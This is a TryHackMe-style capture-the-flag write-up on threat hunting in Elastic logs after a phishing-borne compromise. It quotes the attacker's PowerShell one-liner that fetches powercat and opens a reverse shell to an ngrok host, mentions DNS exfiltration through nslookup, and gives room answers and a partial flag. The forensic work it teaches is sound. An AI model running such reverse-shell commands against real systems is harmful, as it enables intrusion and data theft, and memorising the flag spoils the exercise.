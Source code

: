 ```yaml
---
parent: "[[CTFs - THM]]"
resources:
---
```

On **Friday, September 15, 2023**, Michael Ascot, a Senior Finance Director from SwiftSpend, was checking his emails in **Outlook** and came across an email appearing to be from Abotech Waste Management regarding a monthly invoice for their services. Michael actioned this email and downloaded the attachment to his workstation without thinking.

![The email that Michael received](https://tryhackme-images.s3.amazonaws.com/user-uploads/6490641ea027b100564fe00a/room-content/1324483d59e28d04fbc0ec5579da6c90.png)  

The following week, Michael received another email from his contact at Abotech claiming they were recently hacked and to carefully review any attachments sent by their employees. However, the damage has already been done. Use the attached Elastic instance to hunt for malicious activity on Michael's workstation and within the SwiftSpend domain!

---

### What was the name of the ZIP attachment that Michael downloaded?

- Filtering by `event.code:15` (which is Sysmon event ID for file [FileCreateStreamHash](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventid=90015)) we get two results.

- I also used `file.name` and `file.directory` as columns to filter the relevant information.

![[Pasted image 20241003162401.png]]

### What was the contained file that Michael extracted from the attachment?  

- The response can be found by following the steps above.

### What was the name of the command-line process that spawned from the extracted file attachment?  

- Starting with the query above, I decided to see what's the host name of the compromised device. Then, I filtered using the query below

```
event.code : 1 and host.name : "wkstn-01"
```

- Considering the attachment was downloaded at `18:41:11`, I discarded all results that occured earlier than this.
- The first process after this timestamp was `powershell.exe` which indeed was malicious, once we took a look at the entire command line

```
OriginalFileName: PowerShell.EXE CommandLine: "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -c "IEX(New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1'); powercat -c 2.tcp.ngrok.io -p 19282 -e powershell"
```

![[Pasted image 20241003163421.png]]

### What URL did the attacker use to download a tool to establish a reverse shell connection?  

- Answered above.

### What port did the workstation connect to the attacker on?  

- Also answered above.

### What was the first native Windows binary the attacker ran for system enumeration after obtaining remote access?  

- Using the same query as above

```
event.code : 1 and host.name : "wkstn-01"
```

- Look through the results having them ordered by timestamp.

### What is the URL of the script that the attacker downloads to enumerate the domain?  

- Since we know it's a script, I decided to look through all the PS1 results. 
- However, I have filtered to exclude everything containing `powercat`. 
- Looking through the logs, I found out that `powerview` was downloaded on the station.

![[Pasted image 20241004104125.png]]

- Searching after ps1 and event.code 800 (Pipeline Execution Details) and checking the earlierst entry, we find out the command executed to dowload the tool and the URL.

![[Pasted image 20241004104422.png]]

### What was the name of the file share that the attacker mapped to Michael's workstation?  

```
process.name : net.exe
```

- Net.exe can be used to map network shares - considering this, we found the following

![[Pasted image 20241004110231.png]]

### What directory did the attacker copy the contents of the file share to?  

- I took the next question as a hint. Since we knew that we must find an excel file, I filtered by 

```
*xlsx
```

![[Pasted image 20241004105208.png]]


### What was the name of the Excel file the attacker extracted from the file share?  

- Can be also answered using the query above.
- Also can be found by using

```
event.code: 11 and file.name: *xlsx
```


### What was the name of the archive file that the attacker created to prepare for exfiltration?  

![[Pasted image 20241004105145.png]]

- Tale a look at all the file names.

### What is the **MITRE ID** of the technique that the attacker used to exfiltrate the data?  

- take a look [here](https://attack.mitre.org/tactics/TA0010/) at T1048 

### What was the domain of the attacker's server that retrieved the exfiltrated data?  

```
process.working_directory : *exfiltration
```

![[Pasted image 20241004111342.png]]

- Since we knew what and from where was exfiltrated, I decided to see what processes accessed that path.

### The attacker exfiltrated an additional file from the victim's workstation. What is the flag you receive after reconstructing the file?

```
process.name: nslookup.exe and event.code: 1
```

- Decided to filter after the tool itself, since we dont know if the same path was used.

![[Pasted image 20241004111858.png]]

- Most of the results were the same as before, excepting the first two.

- If we decode the base64, we see that `VEhNezE0OTczMjFmNGY2ZjA1OWE1Mm` results into `THM{1497321f4f6f059a52`

- The entry above, starting with `RmY` is the 2nd partof the flag. concatenate these two to get it.

